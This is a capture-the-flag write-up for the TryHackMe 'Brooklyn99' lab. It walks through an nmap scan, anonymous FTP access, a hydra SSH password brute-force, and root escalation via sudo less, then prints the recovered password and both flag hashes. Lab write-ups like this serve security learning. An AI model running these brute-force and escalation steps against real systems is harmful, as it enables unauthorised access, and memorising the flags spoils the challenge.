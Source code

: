 [Brooklyn99](https://tryhackme.com/room/brooklynninenine)

**nmap** reveals
- 21/tcp ftp
- 22/tcp ssh
- 80/tcp http
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ sudo nmap -O -sV -vv -A 10.10.226.25
```
**enumeration** of ftp port 21
- discovered ftp is anonymous only
- exploited ftp through anonymous/no password 
- get 'note_to_jake.txt'
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.226.25
Connected to 10.10.226.25.
220 (vsFTPd 3.0.3)
Name (10.10.226.25:kali): admin
530 This FTP server is anonymous only.
ftp: Login failed
ftp> 
ftp> exit
221 Goodbye.
                                                                                                 
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.226.25
Connected to 10.10.226.25.
220 (vsFTPd 3.0.3)
Name (10.10.226.25:kali): anonymous 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||18509|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||28731|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |****************************************************|   119        1.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.69 KiB/s)
```
**cat** note_to_jake reveals that jake is a user and has a password
- may also be able to assume that holt and amy have accounts also
```bash
┌──(kali㉿kali)-[~]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
running hydra on jake with the info that he has a weak password
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ hydra -l jake -P /opt/rockyou.txt 10.10.226.25 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-29 10:45:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.226.25:22/
[22][ssh] host: 10.10.226.25   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-29 10:45:55
```
**Log in** with jake using password 987654321 from hydra scan
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ ssh jake@10.10.226.25               
jake@10.10.226.25's password: 
Permission denied, please try again.
jake@10.10.226.25's password: 
Last login: Tue May 26 08:56:58 2020
```
nothing found in jake folders
running sudo -l for incorrectly setuid permissions via GTFO bins 
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
```
searching holt directory we find user.txt
```bash
root@brookly_nine_nine:/home# cd holt
root@brookly_nine_nine:/home/holt# ls
nano.save  user.txt
root@brookly_nine_nine:/home/holt# cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
searching root directrory we find 
```bash
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!

```

